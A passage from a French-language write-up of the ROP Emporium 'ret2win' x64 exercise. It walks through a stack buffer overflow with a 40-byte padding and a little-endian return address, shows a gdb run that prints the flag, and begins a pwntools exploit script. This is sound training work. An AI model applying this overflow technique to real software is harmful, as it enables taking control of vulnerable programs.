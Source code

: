 ``` Python
info(f"offset srip = 0x{offset:x}")

os.remove(core.path)
```


## Exploitation

Si on envoie un message constitué de 40 caractère de débordement puis l'adresse de ret2win :

On peut realiser cela ainsi sous gdb, en affichant le payload avec printf dans ce cas simple.

On va envoyer :

- 40 caractères pour le débordement ( printf "%40s" A)
- L'adresse de la cible avec les valeurs dans l'ordre de convention intel : octets de poind faible en premier (little endian)
\x56\x07\x40\x00\x00\x00\x00\x00

Ne pas mettre les zéros à la fin fonctionne parce qu'il y en a déjà du fait qu'on écrase une adresse de même forme.
En revanche si, comme ce sera le cas dans les exercices suivant on doit ajouter des éléments dans la chaîne, les zéros devont être explicites.

```sh
gef➤  r < <(printf "%40s\x56\x07\x40\x00\x00\x00\x00\x00" A)
Starting program: /home/jce/w/ropemporium/x64/01_ret2win/ret2win < <(printf "%40s\x56\x07\x40" A)
[*] Failed to find objfile or not a valid file format: [Errno 2] Aucun fichier ou dossier de ce type: 'system-supplied DSO at 0x7ffff7fd0000'
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
[Detaching after vfork from child process 18695]
ROPE{a_placeholder_32byte_flag!}
```

### En python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('ret2win')

target = elf.symbols["ret2win"]

gs='''
b *pwnme+107
c
'''

io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)

```